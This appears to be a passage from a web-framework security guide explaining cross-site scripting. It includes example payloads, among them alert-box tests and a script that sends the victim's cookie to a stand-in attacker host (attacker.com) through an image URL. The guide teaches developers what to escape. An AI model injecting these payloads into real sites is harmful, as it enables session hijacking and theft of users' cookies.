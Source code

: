 XSS attacks work like this: An attacker injects some code, the web application saves it and displays it on a page, later presented to a victim. Most XSS examples simply display an alert box, but it is more powerful than that. XSS can steal the cookie, hijack the session, redirect the victim to a fake website, display advertisements for the benefit of the attacker, change elements on the web site to get confidential information or install malicious software through security holes in the web browser.

During the second half of 2007, there were 88 vulnerabilities reported in Mozilla browsers, 22 in Safari, 18 in IE, and 12 in Opera. The [Symantec Global Internet Security threat report](http://eval.symantec.com/mktginfo/enterprise/white_papers/b-whitepaper_internet_security_threat_report_xiii_04-2008.en-us.pdf) also documented 239 browser plug-in vulnerabilities in the last six months of 2007. [Mpack](http://pandalabs.pandasecurity.com/mpack-uncovered/) is a very active and up-to-date attack framework which exploits these vulnerabilities. For criminal hackers, it is very attractive to exploit an SQL-Injection vulnerability in a web application framework and insert malicious code in every textual table column. In April 2008 more than 510,000 sites were hacked like this, among them the British government, United Nations, and many more high profile targets.

#### HTML/JavaScript Injection

The most common XSS language is of course the most popular client-side scripting language JavaScript, often in combination with HTML. _Escaping user input is essential_.

Here is the most straightforward test to check for XSS:

```html
<script>alert('Hello');</script>
```

This JavaScript code will simply display an alert box. The next examples do exactly the same, only in very uncommon places:

```html
<img src=javascript:alert('Hello')>
<table background="javascript:alert('Hello')">
```

##### Cookie Theft

These examples don't do any harm so far, so let's see how an attacker can steal the user's cookie (and thus hijack the user's session). In JavaScript you can use the `document.cookie` property to read and write the document's cookie. JavaScript enforces the same origin policy, that means a script from one domain cannot access cookies of another domain. The `document.cookie` property holds the cookie of the originating web server. However, you can read and write this property, if you embed the code directly in the HTML document (as it happens with XSS). Inject this anywhere in your web application to see your own cookie on the result page:

```html
<script>document.write(document.cookie);</script>
```

For an attacker, of course, this is not useful, as the victim will see their own cookie. The next example will try to load an image from the URL http://www.attacker.com/ plus the cookie. Of course this URL does not exist, so the browser displays nothing. But the attacker can review their web server's access log files to see the victim's cookie.

```html
<script>document.write('<img src="http://www.attacker.com/' + document.cookie + '">');</script>
```
